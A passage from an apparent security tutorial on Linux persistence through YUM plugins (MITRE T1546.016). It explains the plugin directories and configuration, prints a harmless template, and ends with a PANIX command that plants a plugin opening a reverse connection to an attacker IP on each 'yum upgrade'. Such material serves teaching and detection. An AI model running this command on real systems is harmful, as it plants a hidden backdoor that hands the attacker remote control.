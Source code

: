 ### T1546.016 - installer packages (YUM)

[YUM](https://man7.org/linux/man-pages/man8/yum.8.html) (Yellowdog Updater, Modified) is the default package management system used in Red Hat-based Linux distributions like CentOS and Fedora. YUM employs [plugin architecture](https://docs.redhat.com/en/documentation/red_hat_enterprise_linux/6/html/deployment_guide/sec-yum_plugins) to extend its functionality, allowing users to integrate custom scripts or programs that execute at various stages of the package management lifecycle. These plugins are stored in specific directories and can perform actions such as logging, security checks, or custom package handling.

The structure of YUM plugins typically involves placing them in directories like:

* `/etc/yum/pluginconf.d/` (for configuration files)
* `/usr/lib/yum-plugins/` (for plugin scripts)

For plugins to be enabled, the `/etc/yum.conf` file must have the `plugins=1` set. These plugins can intercept YUM operations, modify package installation behaviors, or execute additional actions before or after package transactions. YUM plugins are quite extensive, but a basic YUM plugin template might look like [this](http://yum.baseurl.org/wiki/WritingYumPlugins.html):

```
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE

requires_api_version = '2.3'
plugin_type = (TYPE_CORE, TYPE_INTERACTIVE)

def init_hook(conduit):
    conduit.info(2, 'Hello world')

def postreposetup_hook(conduit):
    raise PluginYumExit('Goodbye')
```

Each plugin must be enabled through a `.conf` configuration file:

```
[main]                                                                                                                               enabled=1
```

Similar to APT's configuration files, YUM plugins can be leveraged by attackers to execute malicious code during routine package management operations, particularly during automated processes like system updates, thereby establishing persistence on vulnerable systems.

#### Persistence through T1546.016 - Installer Packages (YUM)

Similar to APT, YUM plugins should be crafted carefully to not interfere with the YUM update execution flow. Use [this example](https://github.com/Aegrah/PANIX/blob/main/panix.sh#L2025-L2047) or set it up by running:

```
> sudo ./panix.sh --package-manager --ip 192.168.1.1 --port 2012 --yum
[+] Yum persistence established
```

After planting the persistence mechanism, a command similar to `sudo yum upgrade` can be run to establish a reverse connection.
